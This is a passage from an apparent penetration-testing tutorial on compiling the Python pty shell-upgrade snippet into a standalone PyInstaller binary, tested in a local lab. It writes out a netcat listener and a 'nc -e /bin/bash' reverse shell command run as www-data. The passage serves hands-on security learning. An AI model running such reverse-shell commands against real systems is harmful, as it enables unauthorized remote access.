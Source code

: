 I will use the 3+ version of Python for the following examples. But the process should be the same regardless of what version you use. Just make sure the Interpreter you use for compiling the binary is the same one the script would normally use.


## Example: Upgrade a Linux Reverse Shell

If you have done some HackTheBox, then you have probably encountered this python snippet before: 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This spawns a fully interactive pseudo-terminal that allows you to run commands such as `su` or `sudo`, which can be pretty handy if you are stuck with a semi-interactive reverse shell.

There are other ways to spawn a fully-interactive shell besides python, but this will do as a simple example.

Let's create a standalone-binary version of this snippet.

First create a python script file `upgrade.py`:
```python
#!/usr/bin/env python3
# upgrade.py
import pty
pty.spawn("/bin/bash")
```

Use the following command in order to create a pyinstaller binary:

```bash
pyinstaller --onefile upgrade.py
```

The `--onefile` parameter tells pyinstaller that all libraries should be packed into the binary.

If this finishes successfully, then you will find the created binary in the /dist subfolder.

### Does It Work?

Make sure the created `upgrade` binary is executable (`chmod +x upgrade`).

Listen for a shell with netcat:

```bash
nc -vlnp 4455
```

We will simulate a reverse shell as user www-data using sudo.  
This of course assumes you have such a user on your system and the required sudo permissions.  

Do this in a second shell:
```bash
sudo -u www-data bash -c "/usr/bin/nc localhost 4455 -e /bin/bash"
```

In the first terminal you will receive the semi-interactive netcat reverse shell (added new lines for clarity):

